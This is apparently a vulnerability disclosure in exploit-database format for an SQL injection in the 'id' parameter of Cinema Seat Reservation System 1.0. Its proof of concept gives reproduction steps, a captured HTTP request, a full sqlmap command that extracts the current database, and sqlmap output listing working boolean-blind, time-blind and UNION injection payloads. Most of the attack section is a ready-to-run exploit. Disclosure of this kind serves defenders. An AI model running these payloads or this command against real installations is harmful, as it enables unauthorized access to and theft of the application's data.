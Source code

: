 # Cinema Seat Reservation System - SQL Injection
+ **Exploit Title:** Cinema Seat Reservation System - SQL Injection
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/cinema-seat-reservation-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/1d68ab6b-6fd7-4c5f-a125-268d8ecbce07
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Cinema Seat Reservation System 1.0 allows SQL Injection via the 'id' parameter at "/Cinema-Reservation/booking.php?id=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "/Cinema-Reservation/"
+ Click on any movie poster
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Cinema-Reservation/booking.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9842=9842

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3036 FROM (SELECT(SLEEP(5)))fUdC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-1021 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171767871,0x43464842634f6a684a635167706d5868724f6a6c4f7972536257434354776d4b6c64484544534e48,0x7178627071),NULL,NULL-- -
---
[07:46:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:46:45] [INFO] fetching current database
current database: 'cinema_db'
```
+ current database: `cinema_db`

![Ekran görüntüsü 2024-02-01 160105](https://github.com/tubakvgc/CVEs/assets/74067343/461638fb-1a49-4473-a412-047aa427d25c)
